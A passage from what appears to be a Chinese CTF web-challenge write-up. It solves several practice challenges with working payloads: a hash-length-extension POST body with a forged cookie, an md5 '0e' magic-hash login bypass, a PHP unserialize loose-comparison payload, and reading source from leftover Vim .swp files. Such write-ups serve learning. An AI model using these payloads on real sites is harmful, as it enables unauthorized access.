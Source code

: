 因此在 cookie 中设置 `getmein=83f2684d54049c211e191f27902caaaf`，POST 数据为：
```
username=admin&password=admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c8%00%00%00%00%00%00%00append
```

发包后得到 flag。

## 拐弯抹角
仔细读它给的注释，可以想到 `index.php/index.php` 的方式。

## Forms
抓包发现存在 `showsource` 参数，改成 1 就能看到源码，`PIN` 码被写死在代码里了。

## 天网管理系统
F12 看到登录判断代码，是需要用户名 md5 值为 0，任意选一个 md5 以 `0e` 开头的字符串就会被当作是 0 处理。登录后得到一个 url，访问得到：
```php
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] =='???'&& $data_unserialize['pass']=='???')
{
  print_r($flag);
}
```
得到关于 `password` 的提示，这里利用弱等于漏洞，直接让 `user` 和 `pass` 都为 `true` 即可。payload:
```php
username=admin&password=a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
```

## 忘记密码了
随便填个邮箱地址，在源代码中发现这样两行：
```html
<meta name="admin"content="admin@simplexue.com"/>
<meta name="editor"content="Vim"/>
```

第二行的 `vim` 一般指 Vim 编辑器，容易联想到它产生的备份文件 `.swp`，可能在网站目录下存在这类文件。而第一行的邮箱显然就是我们需要的管理员邮箱了。

此外还能得到提示：下一步跳转到 `step2.php`，接收一个 `email` 参数和一个 `check` 参数。如果随意填写 `check` 参数则会显示 `check error` 然后返回 `step1.php`。

抓包访问 `step2.php`，查看源码，注意到它会提交请求到 `submit.php`，而如果直接访问则会得到 `you are not an admin`。因此考虑获取三个页面中某一个的源码，尝试 `.step1.php.swp` 和 `.step2.php.swp` 无果，但是存在 `.submit.php.swp`。核心代码：
```php
if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```

